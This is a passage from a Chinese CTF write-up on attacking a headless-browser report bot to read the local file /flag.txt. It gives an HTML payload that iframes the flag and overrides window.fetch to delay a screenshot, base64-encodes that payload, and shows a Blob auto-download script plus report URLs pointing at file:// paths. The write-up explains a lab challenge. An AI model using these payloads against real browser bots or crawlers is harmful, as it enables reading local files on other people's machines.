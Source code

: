 `iframe`展示flag的内容，`setTimeout`负责卡时间点，定时跳转，因为此时我们还是通过file访问，存在跨域问题，要提交截图还得跳转回`http://openresty:8080/`，就是想刚好卡在截图到flag，在提交截图前跳转回去，有点条件竞争的味道。

1. `/report?id=;url=上面的blob点击操作`
   【可不可以把下载文件操作的html放在我们自己的服务器上？`/report?id=;url=http://ip:port/test.html`（好吧，试过了服务器好像不出网）】
2. `/report?id=;url=file:///root/Downloads/flagger.html`

=============================分割线===============================

咳咳，上面的思路是挺骚的，反正我复现半天是打不出来👊

实际上通过data协议已经能让服务端浏览器执行我们的js代码了

网上搜了一下，由于安全性原因，FileReader读取的是由input传入的文件或者是由ajax读取服务端返回的文件，不可以是指定路径的文件的读取。不能出网，就算有办法读出来也传不出来的🤡

看来只能通过截图来获取flag了。

上面的思路之所以很难打出来，是因为时间不好卡（下载的文件名我也不好确定会不会出现`Unconfirmed xxx`），能不能在执行`page.evaluate`时hook住，先让页面跳转到首页呢？

Javascript中的函数可以直接被覆盖，这是最简单的Hook方法

```html
<iframe src="file:///flag.txt"></iframe>
<script>
    window.a = window.fetch;
    window.fetch = function(s, t){
        setTimeout(() => {}, 5000);
        window.a(s, t);
    }
</script>
```

还有一个问题，跳转过去原页面的js能执行完吗？可以试一试

在百度页面的控制台输入下面代码

`window.location.href="https://www.taobao.com";alert('success');`

可以看到跳转的那一瞬间弹窗了又自动自动关掉了。

> base64得到：
>
> PGlmcmFtZSBzcmM9ImZpbGU6Ly8vZmxhZy50eHQiPjwvaWZyYW1lPgo8c2NyaXB0PgogICAgd2luZG93LmEgPSB3aW5kb3cuZmV0Y2g7CiAgICB3aW5kb3cuZmV0Y2ggPSBmdW5jdGlvbihzLCB0KXsKICAgICAgICBzZXRUaW1lb3V0KCgpID0+IHt9LCA1MDAwKTsKICAgICAgICB3aW5kb3cuYShzLCB0KTsKICAgIH0KPC9zY3JpcHQ+

```html
<body></body>
<script>let blob = new Blob([atob("PGlmcmFtZSBzcmM9ImZpbGU6Ly8vZmxhZy50eHQiPjwvaWZyYW1lPgo8c2NyaXB0PgogICAgd2luZG93LmEgPSB3aW5kb3cuZmV0Y2g7CiAgICB3aW5kb3cuZmV0Y2ggPSBmdW5jdGlvbihzLCB0KXsKICAgICAgICBzZXRUaW1lb3V0KCgpID0+IHt9LCA1MDAwKTsKICAgICAgICB3aW5kb3cuYShzLCB0KTsKICAgIH0KPC9zY3JpcHQ+")], {type: 'text/html'});
let a = document.createElement("a");
a.download = "flagger.html";
a.href = URL.createObjectURL(blob);
document.body.appendChild(a);
a.dispatchEvent(new MouseEvent('click', {bubbles: true, cancelable: true}));</script>
```
